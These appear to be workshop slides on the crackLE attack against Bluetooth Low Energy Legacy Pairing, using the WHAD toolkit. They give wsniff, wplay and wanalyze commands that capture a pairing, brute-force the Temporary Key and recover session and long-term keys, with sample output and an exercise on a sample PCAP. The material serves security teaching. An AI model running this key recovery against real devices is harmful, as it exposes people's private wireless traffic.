


---

# CrackLE

- Legacy Pairing is known to be vulnerable to a key recovery attack: **crackLE**, that allows an attacker to guess or very quickly brute force the TK (Temporary Key). 
- With the TK and other data collected from the pairing process, the STK (Short Term Key) and later the LTK (Long Term Key) can be collected.
- With the STK and LTK, all communications between the Central and the Peripheral can be decrypted.

---

# CrackLE attack with WHAD


<ul>
<li> Sniffing the pairing process and the encrypted traffic:
</li>

```
$ wsniff -i uart0 ble -f | wdump pairing.pcap
```
<li> Recovering the Short Term Key (STK):
</li>

```
$ wplay pairing.pcap | wanalyze legacy_pairing_cracking
[✓] legacy_pairing_cracking → completed
  - tk:  00000000000000000000000000000000
  - stk:  11223344112233441122334411223344
```

---

# CrackLE attack with WHAD


<ul>

<li> Recovering the distributed keys (LTK, IRK, CSRK):
</li>

```
$ wplay --flush pairing.pcap -d -k 11223344112233441122334411223344 | wanalyze
[...]
[✓] ltk_distribution → completed
  - ltk:  2867a99de17e3548cc17cf16ef96050e
  - rand:  38a7dcd10a1a93c6
  - ediv:  29507

[✓] irk_distribution → completed
  - address:  74:da:ea:91:47:e3
  - irk:  13c3a68f113b764cc8e73f55fc52c002

[✓] csrk_distribution → completed
  - csrk:  c3062f93c91eef96354edcd70a1a0306
[...]
```

---

# wanalyze


<div style="width:80%;position:absolute; top:100px; left:200px;">
Use <code>wplay</code> and <code>wanalyze</code> to recover the Long Term Keys distributed in the following PCAP:   
<br /><br />
<a style="font-size:0.5em" href="https://github.com/whad-team/whad-client/raw/refs/heads/main/whad/resources/pcaps/ble_pairing.pcap"> https://github.com/whad-team/whad-client/raw/refs/heads/main/whad/resources/pcaps/ble_pairing.pcap</a>
</div>

---

## Q/A time


---


## Thank you !
